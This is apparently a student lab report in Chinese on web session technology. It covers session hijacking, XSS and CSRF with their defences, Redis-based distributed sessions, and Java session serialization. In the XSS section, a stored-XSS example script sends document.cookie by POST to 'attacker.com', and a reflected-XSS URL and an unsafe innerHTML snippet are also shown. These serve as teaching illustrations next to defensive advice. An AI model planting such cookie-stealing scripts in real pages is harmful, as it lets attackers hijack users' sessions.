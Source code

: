 # 《实验一: 会话技术知识扩展》

> **学院:计算机科学与技术学院**
> 
> **题目:**《实验一: 会话技术内容扩展》
> 
> **姓名:** 田仁卿
> 
> **学号:** 2200770211
> 
> **班级:** 软工2206
> 
> **日期:** 2024-09-29
> 




# **[会话技术]()**

## **[1.会话安全性]()**
### **[会话劫持和防御]()**
会话劫持（Session Hijacking）是指攻击者通过窃取合法用户的会话标识（如Cookie、Session ID）来冒充用户执行敏感操作。常见的会话劫持手段包括:
* **Session Fixation（会话固定攻击）：** 攻击者预先设定一个合法的Session ID并诱骗用户使用这个ID，随后攻击者通过复用这个Session ID劫持用户的会话。
* **Cross-Site Scripting (XSS)：** 攻击者通过植入恶意脚本，利用受害者的浏览器泄露会话标识。
* **恶意代码注入（Malware Injection）：** 通过恶意软件直接窃取用户的会话信息。
* **Cross-Site Request Forgery (CSRF)：** 攻击者通过伪造请求，利用用户已经认证的会话在服务器上执行未授权的操作。

#### **防御措施**

使用HTTPS：通过加密传输防止Session ID被窃取。
设置安全Cookie：启用HttpOnly和Secure标志，防止JavaScript访问和仅通过HTTPS传输。
定期更换Session ID：尤其在用户身份验证后，确保Session ID的唯一性和短时有效性。
IP绑定和设备指纹：根据用户的IP地址或设备信息做进一步验证。
### **[跨站脚本攻击（XSS）和防御]()**
XSS攻击是通过注入恶意脚本到受信任的网页，利用受害者的浏览器执行恶意代码。主要有:
* **反射型 XSS（Reflected XSS）：** 攻击者将恶意脚本嵌入到URL参数中，当受害者点击该链接时，服务器直接将这些脚本返回到用户的浏览器中执行。
  场景：用户点击了包含恶意脚本的链接后，浏览器立即执行了脚本，攻击者可以窃取用户的敏感信息。
  html示例：攻击者构造恶意链接
http://example.com/search?q=alert(document.cookie)

* **存储型 XSS（Stored XSS）：** 攻击者将恶意脚本存储在服务器的数据库中，其他用户在访问受感染的页面时，这些脚本会被自动加载和执行。
  场景：攻击者将恶意脚本存入论坛、评论区等，其他访问这些页面的用户会在不知情的情况下执行这些恶意代码。
  示例：攻击者在论坛发帖

  
  <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
  
* **DOM型 XSS（DOM-based XSS）：** 攻击者通过操控浏览器的DOM对象，使浏览器在本地解析时执行恶意代码。这种攻击发生在客户端，不依赖服务器的响应。
  场景：JavaScript直接操作DOM，生成并执行了不安全的脚本。
  示例：不安全的DOM操作
  
  
  var userInput = document.getElementById('inputBox').value;
   document.getElementById('resultDiv').innerHTML = userInput; // 没有进行转义处理



#### **防御措施**

输入验证：对用户输入进行严格的过滤和编码，防止恶意代码被注入。
输出编码：将所有可能包含用户输入的输出进行适当的编码（如HTML、JavaScript、URL编码）。
使用内容安全策略（CSP）：限制网页中可执行的脚本来源，降低攻击面。
### **[跨站请求伪造（CSRF）和防御]()**
CSRF攻击通过伪造请求使受害者在已登录的情况下执行恶意操作，通常借助社交工程让受害者点击恶意链接。

#### **防御措施**

CSRF Token：在每个表单或请求中嵌入唯一的随机Token，并在服务器端验证。
双重Cookie验证：将CSRF Token存储在Cookie中，并在请求时与表单或头信息中的Token对比。
SameSite Cookie属性：通过设置Cookie的SameSite属性限制第三方站点对Cookie的访问。


## **[2.分布式会话管理]()**
### **[布式环境下的会话同步问题]()**
在分布式环境中，会话数据需要在多个服务器之间同步。若负载均衡器将请求随机分发到不同的服务器，而每台服务器上保存的会话信息不一致，可能会导致会话状态丢失或不一致。

解决方案：

会话粘滞（Session Stickiness）：负载均衡器将同一个用户的所有请求路由到同一台服务器上。
集中存储：将会话数据存储在集中式存储系统中，如数据库或缓存服务（Redis、Memcached）。
### **[Session集群解决方案 ]()**
在分布式系统中，集群内的会话共享通常通过以下方案实现：

共享数据库：所有服务器使用同一数据库来存储会话数据，确保一致性，但可能存在性能瓶颈。
分布式缓存（如Redis、Memcached）：将会话数据存储在高性能的分布式缓存中，提升访问速度和扩展性。
基于Token的无状态会话：使用JWT等方式，将会话信息直接包含在Token中，避免服务器端存储会话。
### **[使用Redis等缓存技术实现分布式会话 ]()**
Redis是高性能的键值数据库，常用于会话存储。Redis支持数据持久化、高并发，并且提供了自动过期机制，适合存储短生命周期的会话信息。

Redis分布式会话优点：

高可用性：通过集群配置或主从复制确保会话数据的高可用性。
扩展性：Redis集群可以轻松扩展以处理更多的请求和会话数据。
## **[3.会话状态的序列化和反序列化]()**
### **[会话状态的序列化和反序列化 ]()**
序列化是将对象转换为字节流以便存储或传输的过程，而反序列化是将字节流还原为对象的过程。在分布式会话管理中，序列化会话数据便于跨服务器共享会话状态。

### **[什么需要序列化会话状态]()**
在分布式或持久化存储中，会话数据必须从内存转移到其他存储介质中（如数据库、缓存）。为保证数据的可传输性和可恢复性，必须对复杂的对象进行序列化。

序列化的必要性：

持久化：使对象能够存储在文件、数据库等持久化存储中。
跨网络传输：通过序列化，复杂的对象可以在不同机器之间传输。
分布式环境中共享：多个节点共享同一个会话时，需要将会话序列化并存储在集中式存储中。
### **[Java对象序列化 ]()**
在Java中，Java对象可以通过Serializable接口实现序列化。Java的内建序列化机制可以将对象的状态保存为字节序列，之后再将其反序列化恢复。

示例：
 
  import java.io.Serializable;
  public class UserSession implements Serializable {
  private static final long serialVersionUID = 1L;
  private String username;
  private int userId;
  // Getters and Setters
  }
注意点：

安全性问题：Java原生序列化机制可能存在安全漏洞（如反序列化攻击），应谨慎使用。
性能开销：Java的默认序列化性能较低，可能会产生较大的序列化数据


### **[什么需要序列化会话状态]()**

为了提高性能或增强安全性，可以实现自定义的序列化策略，例如：
Externalizable接口：允许开发者自定义对象的序列化逻辑。
使用JSON、Protobuf等格式：代替Java原生的序列化格式，提升序列化性能并降低数据传输的体积。

 示例：
  ```
  private void writeObject(ObjectOutputStream oos) throws IOException {
  oos.defaultWriteObject();
  oos.writeObject(encryptPassword(password)); // 自定义加密后的密码序列化
  }
  private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
  ois.defaultReadObject();
  this.password = decryptPassword((String) ois.readObject()); // 自定义解密后的密码反序列化
  }




